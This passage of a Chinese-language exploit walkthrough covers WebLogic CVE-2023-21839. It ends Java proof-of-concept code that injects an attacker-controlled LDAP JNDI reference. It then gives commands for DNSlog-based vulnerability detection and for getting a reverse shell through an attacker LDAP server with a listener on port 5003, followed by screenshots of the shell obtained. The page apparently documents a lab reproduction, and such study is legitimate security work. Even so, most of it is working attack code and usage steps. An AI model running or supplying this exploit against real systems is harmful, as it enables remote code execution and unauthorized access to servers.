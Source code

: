 ```java
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f,env);
        Field remoteJNDIName=weblogic.deployment.jms.ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        remoteJNDIName.set(f,ldapUrl);
        String bindName = new Random(System.currentTimeMillis()).nextLong()+"";
        try{
            c.bind(bindName,f);
            c.lookup(bindName);
        }catch(Exception e){ }

    }
}
```



poc使用方法：	

​	编写并打包的EXP利用工具Weblogic-CVE-2023-21839.jar，然后使用`java -jar 目标IP:端口 LDAP地址`

#### 漏洞探测

同理查看DNSlog网站访问记录即可判断漏洞是否存在。

**攻击者要记得使用`java8`的环境，不然会报错**

```
java -jar Weblogic-CVE-2023-21839.jar 172.17.0.1:7001 ldap://o712i0.dnslog.cn
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202304161945367.png" alt="漏洞探测" style="zoom:50%;" />



#### 本地拿shell

攻击机类似前文搭建服jndi服务器，公网服务器centos本地监听5003端口，等待shell连接请求，然后运行如下命令：

```
java -jar Weblogic-CVE-2023-21839.jar 172.17.0.1:7001 ldap://1.xxx.172:1389/Basic/ReverseShell/1.xxx.172/5003
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202402162004914.png" alt="运行exp" style="zoom:50%;" />



ldap服务器log记录：

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202402162006380.png" alt="ldap服务器记录" style="zoom:50%;" />



攻击机5003端口拿到靶机shell

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202402162012808.png" alt="getshell" style="zoom:50%;" />
